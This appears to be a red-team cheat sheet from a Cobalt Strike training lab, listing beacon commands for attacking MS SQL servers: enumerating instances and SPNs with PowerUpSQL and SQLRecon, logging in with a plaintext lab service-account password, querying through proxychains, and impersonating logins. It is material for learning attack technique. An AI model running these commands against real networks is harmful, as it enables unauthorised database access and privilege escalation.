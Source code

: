 ### SQL Servers

```bash
beacon> powershell-import C:\Tools\PowerUpSQL\PowerUpSQL.ps1
beacon> powershell Get-SQLInstanceDomain
beacon> powershell Get-SQLConnectionTest -Instance "sql-2.dev.cyberbotic.io,1433" | fl
beacon> powershell Get-SQLServerInfo -Instance "sql-2.dev.cyberbotic.io,1433"
# Multiple servers
beacon> powershell Get-SQLInstanceDomain | Get-SQLConnectionTest | ? { $_.Status -eq "Accessible" } | Get-SQLServerInfo
# List spns
beacon> execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /enum:sqlspns
beacon> execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /auth:wintoken /host:sql-2.dev.cyberbotic.io /module:info
# Info using user
beacon> execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:sql-2.dev.cyberbotic.io,1433 /m:whoami
# Search 
beacon> powershell Get-DomainGroup -Identity *SQL* | % { Get-DomainGroupMember -Identity $_.distinguishedname | select groupname, membername }
# authe as user mssql
beacon> execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:windomain /d:dev.cyberbotic.io /u:mssql_svc /p:Cyberb0tic /h:sql-2.dev.cyberbotic.io,1433 /m:whoami
```

#### Query info

- https://www.heidisql.com/

```bash
#powershell
beacon> powershell Get-SQLQuery -Instance "sql-2.dev.cyberbotic.io,1433" -Query "select @@servername"
# SQLRECON
beacon> execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:sql-2.dev.cyberbotic.io,1433 /m:query /c:"select @@servername"
# mssqlclient.py 
ubuntu@DESKTOP-3BSK7NO ~> proxychains mssqlclient.py -windows-auth DEV/bfarmer@10.10.122.25
```

### Impersonation

Allows the executing user to assume the permissions of another user without needing to know their password

```sql
/* permissions */
SELECT * FROM sys.server_permissions WHERE permission_name = 'IMPERSONATE';
/* ID */
SELECT name, principal_id, type_desc, is_disabled FROM sys.server_principals;
```

```bash
beacon> execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:sql-2.dev.cyberbotic.io,1433 /m:impersonate
beacon> execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:sql-2.dev.cyberbotic.io,1433 /m:iwhoami /i:DEV\mssql_svc
```
